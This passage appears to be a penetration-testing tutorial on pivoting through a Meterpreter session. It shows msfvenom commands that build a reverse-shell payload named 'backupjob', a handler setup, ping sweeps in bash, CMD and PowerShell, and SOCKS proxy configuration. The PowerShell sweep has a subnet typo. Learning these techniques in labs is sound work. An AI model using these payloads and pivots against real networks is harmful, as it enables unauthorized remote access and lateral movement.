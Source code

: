 ## Meterpreter Tunneling & Port Forwarding 

We can still create a pivot with our Meterpreter session without relying on SSH port forwarding. First create the payload for the **Pivot Host**:
```console
zero@pio$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<PIVOT IP> -f elf -o backupjob LPORT=8080
```

Start the **multi/handler**:
```console
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set lhost 0.0.0.0
msf6 exploit(multi/handler) > set lport 8080
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run
```

Send the payload to the **Pivot Host** and execute it. Now we must have our Meterpreter session. We can start with the `ping_sweep` module to discover hosts:
```console
meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23

[*] Performing ping sweep for IP range 172.16.5.0/23
```

We can also do the ping sweep directly in the shell, for bash:
```bash
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
```

For CMD:
```console
C:\> for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"
```

And for PowerShell:
```console
PS C:\> 1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.15.5.$($_) -quiet)"}
```

> It's good to try the ping sweep twice, because of the time it takes for a host to build it's arp cache when communicating across networks
{: .prompt-danger}

If a firewall is blocking our pings we can use Nmap for TCP scan. Meterpreter comes with the `socks_proxy` module to help us. We will configure the SOCKS proxy for **SOCKS version 4a**:
```console
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set version 4a
msf6 auxiliary(server/socks_proxy) > run
```

We can test it is working with the `jobs` command. Assure that proxychains is properly configure.
